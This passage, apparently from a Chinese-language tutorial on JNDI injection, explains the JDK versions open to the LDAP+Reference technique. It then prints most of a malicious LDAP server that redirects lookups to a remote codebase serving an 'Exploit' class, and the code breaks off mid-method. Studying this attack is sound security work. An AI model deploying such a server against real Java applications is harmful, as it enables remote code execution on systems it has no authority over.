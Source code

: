 所以，当`JDK`版本介于`8u191`、`7u201`、`6u211`与`6u141`、`7u131`、`8u121`之间时，我们就可以利用`LDAP+Reference`的技巧来进行`JNDI`注入的利用。

因此，这种利用方式的前提条件就是目标环境的`JDK`版本在`JDK8u191`、`7u201`、`6u211`以下。

```java
//LdapServer.java
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.*;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;


public class LdapServer {
    private static final String LDAP_BASE = "dc=example, dc=com";

    public static void main(String[] args) {
        String url = "http://127.0.0.1:8000/#EvilObject";
        int port = 1234;
        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));
            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    private static class OperationInterceptor extends InMemoryOperationInterceptor{
        private URL codebase;
        public OperationInterceptor(URL cb ){
            this.codebase = cb;
        }
        public void processSearchResult(InMemoryInterceptedSearchResult result){
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }catch (Exception e1){
                e1.printStackTrace();
            }
        }
        protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws LDAPException, MalformedURLException{
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + "redirecting to " + turl);
            e.addAttribute("javaClassName", "Exploit");
```